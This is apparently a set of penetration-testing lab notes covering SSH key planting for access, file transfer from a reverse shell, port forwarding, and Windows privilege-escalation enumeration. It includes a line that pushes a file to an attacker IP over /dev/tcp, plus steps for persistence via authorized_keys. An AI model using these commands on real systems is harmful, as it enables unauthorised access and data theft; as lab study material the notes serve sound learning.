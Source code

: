### Resolve setresuid issue

Generate an ssh key for initial access user and ssh in 

Generate ssh key for matt on kali
```
ssh-keygen -f matt
```

```
chmod 600 matt
```

Set up simple python server to transfer the ssh public key to matt's .ssh directory into `authorized_keys`
## Transfer Files 
On Kali
```
nc -lvnp 9001 > RT30000.zip 
```

On rev shell 
```
cat RT30000.zip > /dev/tcp/10.10.14.8/9001
```

## Discover Additional Sites 

Check 
```
/etc/apache2/sites-enabled
```

Set up SSH port forward to reach site from initial access shell 
```
ssh -L 8000:127.0.0.1:80
```

From Kali box - port 8000 should be listening & remote site accessible via web browser
```
ss -lnpt | grep 8000
```


# Windows Privilege Escalation
## ✨Resources✨
- [Internal All The Things](https://swisskyrepo.github.io/InternalAllTheThings/redteam/escalation/windows-privilege-escalation/)

## Manual Enum

Check for hidden files 
```
dir /a
```
